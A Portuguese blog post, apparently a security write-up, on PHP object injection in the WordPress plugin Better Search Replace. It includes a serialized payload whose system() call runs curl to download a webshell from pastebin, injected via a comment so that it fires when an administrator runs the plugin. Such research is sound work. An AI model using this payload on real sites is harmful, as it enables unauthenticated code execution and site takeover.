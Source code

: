 ```yaml
---
layout: post
title: PHP Object Injection no Better Search Replace
permalink: /web/php-object-injection-better-search-replace
---
```


**Atenção**: A técnica demonstrada neste artigo tem o propósito de ser um material educativo, a exploração foi feita em um ambiente controlado. Não realize esta exploração sem a autorização do dono do servidor, pois isto poderá resultar em um crime!

![](/imgs/php-object-injection-better-search-replace/plugin_info.png)

O Better Search Replace é um plugin que possui a função de fazer exatamente o que o nome dele sugere, ele busca uma string na sua base de dados do Wordpress e substitui por outra string que você forneceu.

Sinceramente não entendo porque é tão usado, segundo o Wordpress, existe **mais de 1 milhão de instalações ativas**.

![](/imgs/php-object-injection-better-search-replace/search.png)


![](/imgs/php-object-injection-better-search-replace/serialization.png)

Dentre suas funcionalidades, o plugin consegue realizar o processamento de objetos PHP serializados, então resolvi fazer Code Review deste plugin.

Depois de algum tempo na análise estática, encontrei o [trecho de código abaixo](https://plugins.trac.wordpress.org/browser/better-search-replace/trunk/includes/class-bsr-db.php
), ele é responsável por realizar a deserialização. Achei interessante, logo comecei a análise dinâmica.

![](/imgs/php-object-injection-better-search-replace/func_unserialize.png)

Infelizmente não encontrei um trecho de código que possibilitasse iniciar a POP Chain utilizando o próprio plugin (que por acaso tornaria a vulnerabilidade bem mais crítica) :disappointed:. Por sorte, o Wordpress permite que um plugin consiga acessar as classes ou funções que foram definidas em outros plugins, ou seja, não existe um "sandbox". Consequentemente, isto abre a possibilidade de iniciar a POP Chain utilizando o código-fonte de outros plugins.

Para facilitar a minha vida, criei o plugin ["WP Object Injection Proof of Concept"](https://github.com/growlnx/WP-Object-Injection-PoC), este plugin possibilita o ataque de **Reutilização de Código**, me poupando tempo com **POP Chains**.

![](/imgs/php-object-injection-better-search-replace/plugin_vuln.png)

Ele se resume a nessa pequena classe com o método mágico ["__wakeup"](https://www.php.net/manual/pt_BR/language.oop5.magic.php#object.wakeup). Caso deseje reproduzir em um cenário mais aproximado da realidade, recomendo que veja o [PHPGGC](https://github.com/ambionics/phpggc), pode te ajudar.

Meu objetivo neste momento é fazer download de uma webshell e conseguir a RCE desautenticado. O payload abaixo fará o download de um arquivo do [pastebin](https://pastebin.com/raw/E3cNN0Zy) usando o [curl](https://curl.haxx.se/). 

{% highlight php %}
O:2:”OI”:2:{s:3:”cmd”;s:48:”curl -o ws.php https://pastebin.com/raw/E3cNN0Zy“;s:3:”fcn”;s:6:”system”;}
{% endhighlight %}

Agora só resta saber onde devemos realizar a injeção... que tal nos comentários?

![](/imgs/php-object-injection-better-search-replace/tabela.png)

O plugin permite que o usuário realize o processamento na tabela de comentários, isso é bem legal, pois podemos injetar o payload nos comentários e esperar a iteração do administrador no plugin **Better Search Replace** para disparar a substituição.

![](/imgs/php-object-injection-better-search-replace/comment_evil.png)

Como pode se observar na imagem acima, o administrador é notificado a respeito do comentário, logo, também será necessário contar a sorte.

![](/imgs/php-object-injection-better-search-replace/request_admin_search.png)

Se o payload for interpretado com sucesso, o download de uma simples webshell será realizado no diretório "wp-admin".

![](/imgs/php-object-injection-better-search-replace/rce.png)

*Voilà*!, foi possível obter uma unauth RCE através de uma deserialização insegura do conteúdo nos comentários.

## Referências

- [better-search-replace/trunk/includes/class-bsr-db.php](https://plugins.trac.wordpress.org/browser/better-search-replace/trunk/includes/class-bsr-db.php)
- [OWASP - PHP Object Injection](https://owasp.org/www-community/vulnerabilities/PHP_Object_Injection)
- [CWE-502: Deserialization of Untrusted Data](https://cwe.mitre.org/data/definitions/502.html)
- [PHP Magic Methods](https://php.net/manual/en/language.oop5.magic.php)
- [Blackhat - Utilizing Code Reuse/ROP in PHP Application Exploits](https://owasp.org/www-pdf-archive/Utilizing-Code-Reuse-Or-Return-Oriented-Programming-In-PHP-Application-Exploits.pdf)